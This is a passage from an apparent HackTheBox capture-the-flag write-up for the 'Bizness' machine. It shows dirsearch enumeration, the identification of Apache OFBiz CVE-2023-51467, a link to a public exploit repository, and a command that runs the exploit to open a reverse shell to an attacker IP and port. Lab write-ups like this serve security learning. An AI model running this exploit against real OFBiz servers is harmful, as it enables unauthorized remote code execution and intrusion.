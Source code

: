 ## II => Directory Enumeration

### Uncovering Hidden Gems

Using `dirsearch` to reveal obscured paths.

**Command:**

```bash
dirsearch -q -u https://bizness.htb -i 200,300-399
```

**Findings:**

* Discovered a login page at http://bizness.htb/control/login.
* Apache OFBiz in use – a potential exploit target.

### Visual Evidence:

![dirsearch OUTPUTdirsearch OUTPUT](https://i.imgur.com/CdL9GvA.png)

![Login Page](https://i.imgur.com/M9ZMA7C.png)

***

## III => Vulnerability Analysis

### Identifying the Achilles' Heel

Discovered a critical CVE for Apache OFBiz - CVE-2023-51467, indicating Remote Code Execution (RCE).

**Intel Source:**

* [READING](https://blog.sonicwall.com/en-us/2023/12/sonicwall-discovers-critical-apache-ofbiz-zero-day-authbiz/)

***

## IV => Exploitation

### Deploying the Cyber Arsenal

Found a repository tailor-made for exploiting this CVE.

**Exploit Repository:** [CVE-2023-51467 Exploit](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/tree/main)

### Gaining the Foothold

**Exploit Execution:**

```bash
python3 exploit.py https://bizness.htb/ shell <IP-tun0>:<PORT>
```

